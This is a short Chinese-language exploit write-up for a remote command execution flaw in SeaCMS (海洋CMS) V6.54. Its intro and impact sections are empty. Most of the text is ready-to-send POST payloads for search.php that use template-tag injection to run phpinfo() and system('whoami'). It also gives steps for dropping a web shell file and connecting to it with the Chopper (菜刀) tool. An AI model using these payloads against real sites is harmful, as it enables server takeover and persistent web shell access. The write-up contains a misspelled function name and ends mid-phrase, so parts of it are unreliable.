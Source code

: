 海洋CMS V6.54 命令执行
======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

path:

    http://0-sec.org/search.php

POST:

    searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo();

命令执行payload

path:

    http://0-sec.org/search.php

POST:

    searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("whoami");

权限足够的话，file\_put\_concents("connect.php","")，然后连接菜刀即可

权限不足的话，利用payload构造url：

    http://0-sec.org/search.php?searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))

连接放入
